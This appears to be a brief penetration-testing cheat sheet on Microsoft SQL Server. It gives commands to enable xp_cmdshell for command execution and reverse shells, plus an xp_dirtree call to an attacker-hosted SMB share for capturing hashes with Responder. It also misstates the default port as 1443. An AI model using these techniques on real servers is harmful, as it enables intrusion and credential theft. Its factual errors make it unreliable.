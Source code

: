 # Microsoft SQL Server
## Overview
Microsoft SQL Server is a microsoft service on port 1443. It is a relational database and is usually not secured too well. One of the reasons is that in a SIEM environment, the EventID's that get triggered are usually going to be different and could be overlooked.

## Exploits
Here is a cheat sheet for all the potential exploits that are associated with mssql: 
</br></br>
`https://github.com/Ignitetechnologies/MSSQL-Pentest-Cheatsheet`

### Nmap
Like usual, running `nmap` with the `--script vuln` option will run scripts that test for common vulnerabilities

### xp_cmdshell
`xp_cmdshell` is a command to execute powershell commands on the server. By default, this option is turned off but it can be turned back on from the commandline. </br></br>
How to turn this feature on: </br>
`sp_configure 'xp_cmdshell','1'` </br>
`RECONFIGURE` </br>
`go` </br></br>

You can then run commands off the server or get a reverse shell using `https://www.revshells.com/` with the base64 powershell code. 

### xp_dirtree
This command is used to list all folder sand subfolders in a given directory. However, if it is used on a server that is using smb, then you can give it a smb share that you are hosting with repsonder and capture the hash that is being used. </br></br>
`xp_dirtree '\\<IP>\fake_share'`